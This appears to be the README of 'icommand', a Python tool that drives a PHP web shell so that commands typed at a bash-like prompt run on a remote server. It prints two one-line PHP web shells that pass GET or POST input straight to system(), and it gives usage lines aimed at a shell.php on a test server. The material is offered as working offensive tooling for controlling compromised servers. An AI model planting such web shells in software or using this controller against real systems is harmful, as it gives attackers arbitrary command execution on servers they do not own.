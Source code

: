 icommand - command controller for PHP system function
---
### Info: ###
icommand is a command controller for PHP _program execution functions_ like system, passthru, exec and etc ...  
The script tries to simulate Linux bash as it works from CLI  
It sends requests to the server through urllib/urllib2 [Python][] modules  

* icommand works for **POST** and **GET** requests:   
	-	`<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
- --url is a positional argument withing GET and POST requests:  
	python icommand.py --url http://testserver.com/shell.php?cmd=  
  python icommand.py --url http://testserver.com/shell.php --method POST --parameter cmd

[Python]: http://www.python.org/download/
* __p.s.__ [Python][] v2.6 or v2.7 is required for running this script.